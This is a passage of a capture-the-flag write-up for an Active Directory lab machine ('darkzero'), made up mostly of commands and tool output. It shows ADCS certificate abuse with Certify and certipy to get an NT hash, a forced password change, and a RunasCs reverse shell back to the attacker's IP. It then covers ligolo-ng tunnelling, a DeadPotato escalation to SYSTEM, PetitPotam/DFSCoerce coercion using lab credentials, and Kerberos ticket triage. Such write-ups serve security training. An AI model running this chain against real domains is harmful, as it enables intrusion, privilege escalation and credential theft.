EwVVc2VyczEQMA4GA1UEAwwHc3ZjX3NxbDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANVt5orQK28frUSbiWejAsCwLg+83OGD0m+KYdcS27uKsUGYtnkDrm9zAD7vxPCLMPPFWWEf9/bJYO4wu27zulIywH7QDYhtH7jC5hxK/2L1xBQvqMoNfvQy/pIf3MKCGTfK8RpZ1IFLTV9OPNZ11rgptxMYRP8VgeY9FP9P5wzOyYZBtwQZ
Mk3fhaMGzxtxUHBNvLCn0DXNd++vVPKPc2eu9Ce+vJEGpZ1ml29jn4EDNx28izUzviOm3WPXbzGv+ddRaZvohVFEqtVVDS7y4tqHdY5NOEIUldqXvcQGni2v4fmgcnHWYEMPu8E7u3kOaFwVsqEEggPoz8YEftKEl80unpVNAgMBAAGjggL7MIIC9zAXBgkrBgEEAYI3FAIECh4IAFUAcwBlAHIwHQYDVR0OBBYEFDmsUcGHXboQrMGaTrt9MEea
FIYbMA4GA1UdDwEB/wQEAwIFoDAfBgNVHSMEGDAWgBTVGX4skGZLzN8bp34CEvJ1YUGqjDCB0AYDVR0fBIHIMIHFMIHCoIG/oIG8hoG5bGRhcDovLy9DTj1kYXJremVyby1leHQtREMwMi1DQSxDTj1EQzAyLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWRhcmt6ZXJv
LERDPWV4dD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgccGCCsGAQUFBwEBBIG6MIG3MIG0BggrBgEFBQcwAoaBp2xkYXA6Ly8vQ049ZGFya3plcm8tZXh0LURDMDItQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleQSCA+glMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1D
b25maWd1cmF0aW9uLERDPWRhcmt6ZXJvLERDPWV4dD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTApBgNVHSUEIjAgBgorBgEEAYI3CgMEBggrBgEFBQcDBAYIKwYBBQUHAwIwLwYDVR0RBCgwJqAkBgorBgEEAYI3FAIDoBYMFHN2Y19zcWxAZGFya3plcm8uZXh0ME0GCSsGAQQBgjcZAgRA
MD6gPAYKKwYBBAGCNxkCAaAuBCxTLTEtNS0yMS0xOTY5NzE1NTI1LTMxNjM4NTEyLTI1NTI4NDUxNTctMTEwMzBEBgkqhkiG9w0BCQ8ENzA1MA4GCCqGSIb3DQMCAgIAgDAOBggqhkiG9w0DBAICAIAwBwYFKw4DAgcwCgYIKoZIhvcNAwcwDQYJKoZIhvcNAQELBQADggIBAM2hFkH/xL8oVrmvrXzU/cWOUfnuPkDpsxudIjIguZQpq8rfjV7O
zpRflyUOC6w5q9HhpVVfvpIcRmKEcOrAkcMwooO1iV5ce7FBsVPWeryl5UpwM4NSAfIQpk6kn9poEBQKdhYasxJVvlf2WKv6VXqOWG6/O8TulXH1tygBDeleFZb1XmKuzOvvJaAMKtp9DbAwyEZMnjsRBby5ZN9P+amSraFS9IYOMBK+neqSmNjLaxvzhxikCgCWIXcSjloHqwSCAc/pmfnIuKeUffb5ZtTdTJcvUMWpFhIUuWCPzF7h10TzRAS8
OsPhHQpG++EoaKvnqnvjsXH4Zwjdwh7GdjvVm0zJs7w5ZCL7vfOpmAjfROEpvqSfIJGXHqyCbKc5PFF6pkpKGOnkFF+vef4jcVcebUQmpoEZaiw92jMWVB+yQbxmiobCSPdu7X2RJI5olc3RxvoVFTn4D2ATMz38/ri0e2GOjv0qZBIVI0ipjJ9XlQvsT/o0uZHfuZ08S6Z7XCHMNPZtHfaH5z/61hz/aEcKlPetHf/KxR5jaV8E7QmOeIOq3wG2
3z/Dwc0ZmzKfCMU2hSRjLFW95Low3VGuFAkTHj/vT+aBNHIkHZ48SHhIIDcwxkje4xZxkfQx5r6AwLEEDmzSdNX0hl6W+Pu2/dg67F+Getd8H99YL/tF0HikOsBRbDGBgjAjBgkqhkiG9w0BCRUxFgQUOaxRwYdduhCswZpOu30wR5oUhhswWwYJKoZIhvcNAQkUMU4eTABEAEMAPQBlAHgAdAAsAEQAQwA9AGQAYQByAGsAegBlAHIAbwAsAEMA
TgA9AFUAcwBlAHIAcwAsAAQTQwBOAD0AcwB2AGMAXwBzAHEAbAAAAAAAAAAAAAAAAAAAAAA=

Certify completed in 00:00:11.6880631
[20/08 20:18:38] [+] BOF finished

+--- Task [5f3c6c5f] closed ----------------------------------------------------------+
```

I now have a certificate encoded in base64

```python
echo -n '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' | base64 -d | tee svc_sql.pfx
```

Now ill put that into a pfx file, but in order to use it to authenticate i need to have access to `dc02` from my machine which means ill need to setup ligolo-ng for tunneling

## Setting up ligolo-ng tunnel

```python
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.48.21 - - [20/Aug/2026 20:27:30] "GET /agent.exe HTTP/1.1" 200 -
```

First ill transfer the agent to the target

```python
sudo ./proxy -selfcert
[sudo] password for kali: 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.9.1

ligolo-ng »
```

Ill start the proxy  on my machine

```python
PS C:\Temp> ./agent.exe -connect 10.10.14.61:11601 --ignore-cert
```

Then on the shell on `dc02` ill trigger the connection back

```python
ligolo-ng » session
? Specify a session : 1 - darkzero-ext\svc_sql@DC02 - 10.129.48.21:60783 - 00155df25c01
[Agent : darkzero-ext\svc_sql@DC02] »

[Agent : darkzero-ext\svc_sql@DC02] » ifconfig 
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet                       │
│ Hardware MAC │ 00:15:5d:f2:5c:01              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.20.2/24                 │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 1                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
[Agent : darkzero-ext\svc_sql@DC02] » ifcreate --name ligolo
INFO[0077] Creating a new ligolo interface...           
INFO[0077] Interface created!

[Agent : darkzero-ext\svc_sql@DC02] » route_add --name ligolo --route 172.16.20.0/24
INFO[0118] Route created.                               
[Agent : darkzero-ext\svc_sql@DC02] » tunnel_start
INFO[0122] Starting tunnel to darkzero-ext\svc_sql@DC02 (00155df25c01) 
```

Then ill select the session and look at the internal IP `172.16.20.2/24`, then ill create a new interface and add the routing for the correct IP range and start the tunnel

```python
ping 172.16.20.2         
PING 172.16.20.2 (172.16.20.2) 56(84) bytes of data.
64 bytes from 172.16.20.2: icmp_seq=1 ttl=64 time=20.1 ms
```

I can now ping `dc02`

## Getting NTLM hash for `sql_svc` from dc02 and changing the password

So now dc02 is accessible i can use the pfx

So first ill make sure the cert is all on one line (sometimes formatting puts it on multiple), then copy the pfx given from certify and put it in a file called cert.txt

```python
cat cert.txt | base64 -d | tee svc_sql.pfx
```

Then ill put it in a PFX by decoding it and placing it in the correct file

```python
certipy-ad auth -pfx svc_sql.pfx -dc-ip 172.16.20.2 -username svc_sql -domain darkzero.ext -debug
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[+] Target name (-target) and DC host (-dc-host) not specified. Using domain '' as target name. This might fail for cross-realm operations
[+] Nameserver: '172.16.20.2'
[+] DC IP: '172.16.20.2'
[+] DC Host: ''
[+] Target IP: '172.16.20.2'
[+] Remote Name: '172.16.20.2'
[+] Domain: ''
[+] Username: 'SVC_SQL'
/usr/lib/python3/dist-packages/certipy/lib/certificate.py:662: UserWarning: PKCS#12 bundle could not be parsed as DER, falling back to parsing as BER. Please file an issue at https://github.com/pyca/cryptography/issues explaining how your PKCS#12 bundle was created. In the future, this may become an exception. Error details: ASN.1 parsing error: invalid length
  return pkcs12.load_key_and_certificates(pfx, password)[:-1]
[*] Certificate identities:
[*]     SAN UPN: 'svc_sql@darkzero.ext'
[*]     Security Extension SID: 'S-1-5-21-1969715525-31638512-2552845157-1103'
[+] Found SID in security extension: 'S-1-5-21-1969715525-31638512-2552845157-1103'
[*] Using principal: 'svc_sql@darkzero.ext'
[*] Trying to get TGT...
[+] Sending AS-REQ to KDC darkzero.ext (172.16.20.2)
[*] Got TGT
[*] Saving credential cache to 'svc_sql.ccache'
[+] Attempting to write data to 'svc_sql.ccache'
[+] Data written to 'svc_sql.ccache'
[*] Wrote credential cache to 'svc_sql.ccache'
[*] Trying to retrieve NT hash for 'svc_sql'
[*] Got hash for 'svc_sql@darkzero.ext': aad3b435b51404eeaad3b435b51404ee:816ccb849956b531db139346751db65f
```

Now i have the NTLM and a TGT for the user, so now i should be able to change the password for the user

```python
changepasswd.py -hashes :816ccb849956b531db139346751db65f -newpass 'Password123!' darkzero.ext/svc_sql@dc02.darkzero.ext
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of darkzero.ext\svc_sql
[*] Connecting to DCE/RPC as darkzero.ext\svc_sql
[*] Password was changed successfully.
```

Now the password is changed i can use the credentials to login with login type 5 (service logon) which should give me SeImpersonatePrivilege

## Abusing `SeImpersonatePrivilege` to get SYSTEM on `dc02`

```python
+--- Task [e8e28b4e] closed ----------------------------------------------------------+

[20/08 21:32:24] ethan [f01b513c] beacon > execute-assembly /home/kali/htb/darkzero/RunasCs.exe svc_sql Password123! -d darkzero.ext -l 5 whoami --bypass-uac
[20/08 21:32:24] [*] Task: execute .NET assembly
[20/08 21:32:24] [*] Agent called server, sent [61.64 Kb]
[20/08 21:32:25] [+] BOF output


darkzero-ext\svc_sql
[20/08 21:32:25] [+] BOF finished

+--- Task [f01b513c] closed ----------------------------------------------------------+
```

As seen here i can now authenticate with logon type 5 (service logon)

```python
penelope -p 1338
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

So ill set another listener

```python
+--- Task [bd30d2e5] closed ----------------------------------------------------------+

[20/08 21:35:31] ethan [7d32cbbf] beacon > execute-assembly /home/kali/htb/darkzero/RunasCs.exe svc_sql Password123! -d darkzero.ext -l 5 --bypass-uac powershell -r 10.10.14.61:1338
[20/08 21:35:31] [*] Task: execute .NET assembly
[20/08 21:35:35] [*] Agent called server, sent [61.66 Kb]
[20/08 21:35:36] [+] BOF output


[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-2a43f$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 2660 created in background.
[20/08 21:35:36] [+] BOF finished

+--- Task [7d32cbbf] closed ----------------------------------------------------------+
```

Ill then use my beacon to execute runascs shell using the logon type 5

```python
penelope -p 1338
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC02 10.129.48.21 Microsoft_Windows_Server_2022_Datacenter-x64-based_PC 👤 darkzero-ext\svc_sql 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC02~10.129.48.21-Microsoft_Windows_Server_2022_Datacenter-x64-based_PC/2026_08_20-21_35_38-943.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32>
```

I now have SeImpersonatePrivilege

I will now re execute my beacon payload to get a higher privilege beacon

```python
PS C:\Temp> ./http.x64.exe
./http.x64.ex
```



```python
[20/08 21:45:00] ethan [c81de896] beacon > whoami
[20/08 21:45:00] [*] BOF implementation: whoami /all
[20/08 21:45:03] [*] Agent called server, sent [6.56 Kb]
[20/08 21:45:03] [+] BOF output

UserName		SID
====================== ====================================
darkzero-ext\svc_sql	S-1-5-21-1969715525-31638512-2552845157-1103


GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
darkzero-ext\Domain Users                         Group                    S-1-5-21-1969715525-31638512-2552845157-513   Mandatory group, Enabled by default, Enabled group, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Pre-Windows 2000 Compatible Access        Alias                    S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Certificate Service DCOM Access           Alias                    S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group, 
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group, 
Mandatory Label\High Mandatory Level              Label                    S-1-16-12288                                  Mandatory group, Enabled by default, Enabled group, 


Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeMachineAccountPrivilege     Add workstations to domain                        Disabled                      
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeImpersonatePrivilege        Impersonate a client after authentication         Enabled                       
SeCreateGlobalPrivilege       Create global objects                             Enabled                       
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
[20/08 21:45:03] [+] BOF finished

+--- Task [c81de896] closed ----------------------------------------------------------+
```

This now gives me a higher privilege beacon

```python
[20/08 21:49:04] ethan [1e71669a] beacon > execute-assembly /home/kali/htb/darkzero/DeadPotato-NET4.exe -cmd "C:\Temp\http.x64.exe"
[20/08 21:49:04] [*] Task: execute .NET assembly
[20/08 21:49:07] [*] Agent called server, sent [2.27 Mb]
```

Now in this higher privilege beacon ill use deadpotato to re-execute my beacon payload

```python
[20/08 21:50:19] ethan [f7fad0fc] beacon > getuid
[20/08 21:50:19] [*] Task: get username of current token
[20/08 21:50:22] [*] Agent called server, sent [12 bytes]
[20/08 21:50:22] [+] You are 'NT AUTHORITY\SYSTEM' (elevated)

+--- Task [f7fad0fc] closed ----------------------------------------------------------+
```

I now have a SYSTEM beacon

## Domain Admin

So now i am SYSTEM i can technically dump all the kerberos tickets on the system, but first ill need to coerce auth back to dc02 since thats what i control

```python
nxc smb dc01.darkzero.htb -u john.w -p 'RFulUtONCOL!' -M coerce_plus -o METHOD=PetitPotam LISTENER=dc02.darkzero.ext 
SMB         10.129.48.21    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.48.21    445    DC01             [+] darkzero.htb\john.w:RFulUtONCOL! 
COERCE_PLUS 10.129.48.21    445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.129.48.21    445    DC01             Exploit Success, efsrpc\EfsRpcAddUsersToFile
```

This worked

```python
nxc smb dc01.darkzero.htb -u john.w -p 'RFulUtONCOL!' -M coerce_plus -o LISTENER=dc02.darkzero.ext
SMB         10.129.48.21    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.48.21    445    DC01             [+] darkzero.htb\john.w:RFulUtONCOL! 
COERCE_PLUS 10.129.48.21    445    DC01             VULNERABLE, DFSCoerce
COERCE_PLUS 10.129.48.21    445    DC01             Exploit Success, netdfs\NetrDfsAddStdRootForced
COERCE_PLUS 10.129.48.21    445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.129.48.21    445    DC01             Exploit Success, efsrpc\EfsRpcAddUsersToFile
[22:10:16] ERROR    Error in PrinterBug module: DCERPC Runtime Error: code: 0x16c9a0d6 - ept_s_not_registered                                                                                                     coerce_plus.py:178
           ERROR    Error in PrinterBug module: DCERPC Runtime Error: code: 0x16c9a0d6 - ept_s_not_registered                                                                                                     coerce_plus.py:178
COERCE_PLUS 10.129.48.21    445    DC01             VULNERABLE, MSEven
```

Ill start coercing the dc01 machine account to connect back to dc02

```python
+--- Task [71b57337] closed ----------------------------------------------------------+

[20/08 22:10:16] ethan [6ccf7130] beacon > kerbeus triage
[20/08 22:10:16] [*] Task: Kerbeus TRIAGE
[20/08 22:10:16] [*] Agent called server, sent [14.93 Kb]
[20/08 22:10:16] [+] BOF output

Action: List Kerberos Tickets (All Users)


--------------------------------------------------------------------------------------------------------------------------
| LUID        | Client                                   | Service                                  |            End Time |
--------------------------------------------------------------------------------------------------------------------------
| 0:0x282219  | DC01$ @ DARKZERO.HTB                     | krbtgt/DARKZERO.HTB                      | 21.08.2026 02:05:50 |
| 0:0x40c01   | Administrator @ DARKZERO.EXT             | krbtgt/DARKZERO.EXT                      | 21.08.2026 02:13:03 |
| 0:0x3e319   | DC02$ @ DARKZERO.EXT                     | ldap/DC02.darkzero.ext                   | 21.08.2026 02:06:46 |
| 0:0x3e26c   | DC02$ @ DARKZERO.EXT                     | LDAP/DC02.darkzero.ext/darkzero.ext      | 21.08.2026 02:06:46 |
| 0:0x2a43f   | svc_sql @ DARKZERO.EXT                   | krbtgt/DARKZERO.EXT                      | 21.08.2026 02:08:25 |
| 0:0x299ca   | DC02$ @ DARKZERO.EXT                     | krbtgt/DARKZERO.EXT                      | 21.08.2026 02:06:46 |
| 0:0x3e4     | dc02$ @ DARKZERO.EXT                     | krbtgt/DARKZERO.EXT                      | 21.08.2026 02:11:55 |
| 0:0x3e4     | dc02$ @ DARKZERO.EXT                     | krbtgt/DARKZERO.EXT                      | 21.08.2026 02:11:55 |
| 0:0x3e4     | dc02$ @ DARKZERO.EXT                     | DNS/dc02.darkzero.ext                    | 21.08.2026 02:11:55 |
| 0:0x282242  | DC01$ @ DARKZERO.HTB                     | krbtgt/DARKZERO.HTB                      | 21.08.2026 02:05:50 |
| 0:0x26a8fc  | Administrator @ DARKZERO.EXT             | krbtgt/DARKZERO.EXT                      | 21.08.2026 07:05:20 |
| 0:0x1fe43f  | Administrator @ DARKZERO.EXT             | krbtgt/DARKZERO.EXT                      | 21.08.2026 06:35:20 |
| 0:0x5fd34   | DC02$ @ DARKZERO.EXT                     | GC/DC02.darkzero.ext/darkzero.ext        | 21.08.2026 02:06:46 |
| 0:0x3e221   | DC02$ @ DARKZERO.EXT                     | ldap/DC02.darkzero.ext                   | 21.08.2026 02:06:46 |
| 0:0x3e1aa   | DC02$ @ DARKZERO.EXT                     | ldap/DC02.darkzero.ext                   | 21.08.2026 02:06:46 |
| 0:0x26e24   | DC02$ @ DARKZERO.EXT                     | LDAP/DC02.darkzero.ext/darkzero.ext      | 21.08.2026 02:06:46 |
| 0:0x2244c   | DC02$ @ DARKZERO.EXT                     | ldap/DC02.darkzero.ext                   | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | krbtgt/DARKZERO.HTB                      | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | krbtgt/DARKZERO.EXT                      | 21.08.2026 02:06:46 |
